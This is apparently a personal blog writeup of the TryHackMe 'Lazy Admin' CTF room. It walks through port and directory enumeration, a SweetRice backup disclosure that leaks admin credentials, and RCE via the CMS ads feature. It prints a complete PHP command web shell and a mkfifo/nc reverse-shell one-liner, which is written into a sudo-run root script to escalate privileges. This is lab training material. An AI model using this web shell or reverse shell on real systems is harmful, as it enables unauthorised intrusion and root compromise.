 ```yaml
---
layout: post
title: Lazy Admin
date: 2020-09-21 00:00:00 +5:30
categories: [TryHackMe, Medium]
tags: [tryhackme, hashcracking, wordpress, GTFO] # add tag
image: /assets/img/mrrobot/mrrobot.jpg
---
```


## Description

The Following Post is writeup of Lazy Admin room of tryhackme <https://tryhackme.com/room/lazyadmin>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | MrSeth6797

## Summary

The machine have 2 open ports 22 and 80, In port 80 we have sweetrice CMS(on Dirbusting). On searching
for public exploits we found a backup disclosure which contains admin username and password.
We have php code execution in ads tab of sweetrice. www-data can run a script as sudo and have write
rights for thats so putting reverse shell we will get root.

## Walkthrough

### Enumeration

```bash
┌─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $nmap -sC -sV -oA nmap/lazy 10.10.232.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 03:48 IST
Nmap scan report for 10.10.232.150
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.24 seconds
```

So let;s see port 80

#### port 80

![Webpage](/assets/img/mrrobot/port80.png)

So we can see few links after the Webpage loaded.
Moving on to dirbust.

```bash
┌─[✗]─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/FUZZ

        /'___\  /'___\           /'___\      
       /\ \__/ /\ \__/  __  __  /\ \__/      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
         \ \_\   \ \_\  \ \____/  \ \_\      
          \/_/    \/_/   \/___/    \/_/      

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.232.150/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
content                 [Status: 301, Size: 316, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
```

Dirbusting content again.

```bash
┌─[argenestel@parrot]─[~/Desktop/lazyadmin]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.232.150/content/FUZZ

        /'___\  /'___\           /'___\      
       /\ \__/ /\ \__/  __  __  /\ \__/      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
         \ \_\   \ \_\  \ \____/  \ \_\      
          \/_/    \/_/   \/___/    \/_/      

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.232.150/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10]
```

![sweetrice](/assets/img/lazyadmin/sweetrice.png)

![login](/assets/img/lazyadmin/login.png)

So we have sweetrice in /content and login in /content/as.<br/>
Let's check if we can get any info about sweetrice.

![searchsploit](/assets/img/lazyadmin/searchsploit.png)

We can see backup disclosure let's check that output
![backup](/assets/img/lazyadmin/backup.png)

Download the backup and look into it we got admin user and password.
![backup](/assets/img/lazyadmin/sql.png)

![HashCrack](/assets/img/lazyadmin/hashcrack.png)

OK so finally logged in we can see another vulnerability on ads tab in sweetrice which leads to rce.

<https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html>

#### Exploitation

so according to packet storm we can exec code using ads feature in sweet rice

![ads](/assets/img/lazyadmin/ads.png)

so i uploaded a simple php shell

```html
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>

</html>
```

let's get a reverse shell

```bash
┌─[argenestel@parrot]─[~/Desktop/tryhackme/lazyadmin]
└──╼ $pwncat --listen --port 4444
[11:07:07] received connection from 10.10.182.220:46374                                                                connect.py:148
[11:07:08] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                                            victim.py:325
[11:07:19] pwncat running in /bin/sh                                                                                    victim.py:358
[11:07:27] pwncat is ready 🐈                                                                                           victim.py:768


(remote) www-data@THM-Chal:/$bash

www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
so we can edit copy.sh and get root

```bash
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.108.114 4443 >/tmp/f" > /etc/copy.sh

┌─[argenestel@parrot]─[~/Desktop/tryhackme/lazyadmin]
└──╼ $pwncat --listen --port 4443
[11:36:23] received connection from 10.10.182.220:42902                                          connect.py:148
[11:36:26] new host w/ hash 0a307a4f181fea16ebb4d9fe234f3689                                      victim.py:325
[11:36:39] pwncat running in /bin/sh                                                              victim.py:358
[11:36:46] pwncat is ready 🐈                                                                     victim.py:768


(remote) root@THM-Chal:/$ bash
root@THM-Chal:/# ls
bin   cdrom  etc   initrd.img      lib         media  opt   root  sbin  srv  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lost+found  mnt    proc  run   snap  sys  usr  vmlinuz
root@THM-Chal:/# cd root/
root@THM-Chal:~# ls
root.txt
root@THM-Chal:~# cat root.txt
```
